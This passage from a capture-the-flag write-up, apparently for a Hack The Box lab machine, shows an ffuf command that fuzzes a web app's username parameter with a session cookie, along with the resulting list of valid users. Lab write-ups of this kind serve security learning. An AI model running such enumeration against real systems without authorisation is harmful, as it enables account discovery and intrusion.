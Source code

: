 We started `fuzzing` the `username` in combination with a `wildcard` (`*.odt`) while providing our `session cookie` we grabbed form within our `session` in the `browser` to `enumerate` in an `authenticated way`. We also filtered out the pattern of `User not found`.

Luckily for us we finally verified the user `admin` and in addition found the `usernames` of `amanda` and `tobias`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.odt' -H "Cookie: PHPSESSID=7ia2l7fchk8ndgt3uo2mosmtio" -mc 200 -fr "User not found"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.odt
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Cookie: PHPSESSID=7ia2l7fchk8ndgt3uo2mosmtio
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 201ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 102ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 106ms]
foobar                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 100ms]
<--- CUT FOR BREVITY --->
```

| Username |
| -------- |
| admin    |
| amanda   |
| tobias   |

## Broken Access Control
